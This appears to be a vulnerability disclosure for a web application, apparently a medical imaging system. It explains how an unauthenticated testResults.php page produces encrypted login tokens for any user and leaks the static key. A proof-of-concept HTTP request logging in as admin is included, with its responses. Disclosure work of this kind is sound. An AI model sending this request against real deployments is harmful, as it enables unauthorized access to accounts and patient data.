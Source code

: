 ### Unauthenticated Encryption Key Disclosure / Static/Global Encryption Key / Authentication Bypass / Use of Unauthenticated Encryption

The path `/webapi/testFormEncrypt.php` requires that the request come from `localhost` and renders a form, that when submitted, is sent to `/webapi/testResults.php`, which itself does not enforce the same `localhost` check or any other form of authentication. Logic in these pages uses encryption to generate a string of ciphertext containing an arbitrary username and timestamp. This string can then be used to login to the application. For convience, `testResults.php` renders two links, that when clicked, will send the ciphertext string to `/webapi/webTrust.php` or `/webapi/webTrust2.php`, either of which will decrypt the provided ciphertext and create a valid session as the provided user. As a result, an attacker with knowledge of the logic in `testResults.php` can send a request and login to the application as an arbitrary user.

Request:
```
GET /webapi/testResults.php?username=admin&studyid=1&patid=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=35lu9ra5kki69dq5psgm5m7lb4
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Response:
```
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Server: Microsoft-IIS/8.5
X-Powered-By: PHP/5.6.35
X-Powered-By: ASP.NET
Date: Wed, 02 Jan 2019 01:09:51 GMT
Connection: close
Content-Length: 2125
-- snip --
<form name="form1" method="post" action="../webapi/testResult.php">
<input type="hidden" name="studyid" value="1">
```
Response (Key Disclosure):
```
<table class="dataPanel" style="width:800px;">
  	<tr>
	    <td class="dataLabel">Key Used</td>
	    <td><span class="dataValue">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</span></td>
    </tr>
```
